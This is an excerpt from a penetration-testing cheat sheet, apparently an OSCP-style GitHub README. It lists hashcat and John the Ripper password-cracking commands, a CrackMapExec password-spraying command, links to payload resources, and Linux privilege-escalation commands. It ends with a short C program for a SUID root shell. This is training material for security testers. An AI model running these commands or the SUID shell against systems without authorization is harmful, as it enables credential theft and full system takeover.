 -   `hashcat -m 500 -a 0 -o cracked_password.txt --force hash.txt /path/to/your/wordlist.txt`

John The Ripper

-   `john --rules --wordlist=/path/to/your/wordlist.txt hash.txt`

## Password Spraying (CrackMapExec)

-   `cme smb 10.10.10.10 -u username -d domain -p password`

## Payload Generation

-   [NETSEC - Creating Payloads](https://netsec.ws/?p=331)
-   [MsfVenom Cheatsheet](http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/_)
-   [Metasploit Unleashed Payloads](https://www.offensive-security.com/metasploit-unleashed/payloads/)
-   [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
-   Non-staged: netcat
-   Staged: multi/handler

## PHP

-   [The differences between `exec()`, `shell_exec`, `system()` and `passthru()`](https://stackoverflow.com/questions/20072696/what-is-different-between-exec-shell-exec-system-and-passthru-functions?lq=1)

## Priv Esc - Linux

# If GCC & wget is installed, the system MIGHT be vulnerable to a kernel exploit

-   [Linux Kernel Exploits](https://github.com/SecWiki/linux-kernel-exploits)
-   [GTFObins - Break ~~the f\*\*k~~ out of restricted shells](https://gtfobins.github.io)
    -   GTFO Helper script: https://github.com/dreadnaughtsec/gtfo
-   [Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
-   [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
-   [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
-   `grep -Ri 'password' .`
-   `find / -perm –4000 2>/dev/null`
-   `find / -perm -u=s 2>/dev/null`
-   `find / -user root -perm -4000 -exec ls -ldb {} \;`
-   `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`
    (then ls -la, look for 777 file permissions).
-   Custom SUID binary. Requires code execution as the target user. Example: mysql sys_eval as root.

```
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h>

int main(){
    setuid(geteuid());
    system("/bin/bash");
    return 0;
}
```
